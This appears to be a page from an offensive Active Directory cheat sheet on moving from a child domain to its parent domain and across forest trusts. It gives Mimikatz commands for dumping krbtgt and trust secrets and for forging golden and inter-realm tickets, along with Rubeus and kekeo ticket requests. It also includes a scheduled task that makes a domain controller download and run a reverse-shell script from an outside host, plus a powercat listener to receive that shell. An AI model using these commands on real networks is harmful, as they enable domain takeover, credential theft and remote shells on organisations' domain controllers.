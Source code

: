### Using hash krbtgt - Child to parent using krbtgt hash  
* get hash krbtgt  
```
Invoke-Mimikatz -Command '"lsadump::lsa /patch"'
```

* get SID current domain  
```
Get-DomainSID (PowerView)
```

* get SID of the enterprise admins group of the parent domain  
```
Get-DomainGroup -Identity "Enterprise Admins" -Domain <parent_domain>
```
```
Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:ok.example.local /krbtgt:<ktbtgt_hash> /sid:<domain_sid> /sids:<sid_enterprise_admin_of_the_parent_domain>-519 /ticket:C:\Tools\kekeo_old\krbtgt_tkt.kirbi"'
Invoke-Mimikatz -Command '"kerberos::ptt C:\Tools\krbtgt_tkt.kirbi"'
```

* Schedule a task and run it as SYSTEM  
```
schtasks /create /S dev.dc.example.local /SC Weekly /RU "NT Authority\SYSTEM" /TN "STCheckx" /TR "powershell.exe -c 'iex (New-Object Net.WebClient).DownloadString(''http://ip/Invoke-PowerShellTcp.ps1''')'"
schtasks /Run /S dev-dc.example.local /TN "STCheckx"
```
```
powercat -l -v -p 443 -t 1000
```

## Across Forest using Trust Tickets
```
Invoke-Mimikatz -Command '"lsadump::trust /patch"' -ComputerName dcorp-dc
```
or  
```
Invoke-Mimikatz -Command '"lsadump::lsa /patch"' -ComputerName dcorp-dc
```

* get SID current domain  
```
Get-DomainSID (PowerView)
```
```
Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:<forest_domain_1> /service:krbtgt /rc4:28167df917b795605413be3e5aa59426 /sid:S-1-5-21-1874506631-3219952063-538504511 /target:<forest_domain_2> /ticket:C:\Tools\kekeo_old\d2_trust_tkt.kirbi"'
```
```
.\asktgs.exe C:\Tools\kekeo_old\d2_trust_tkt.kirbi CIFS/<dc_forest_2>
.\kirbikator.exe lsa.\CIFS/<dc_forest_2>
```
or  
```
.\Rubeus.exe asktgs /ticket:C:\Tools\kekeo_old\trust_forest_tkt.kirbi /service:cifs/<dc_forest_2> /dc:<dc_forest_2> /ptt
```
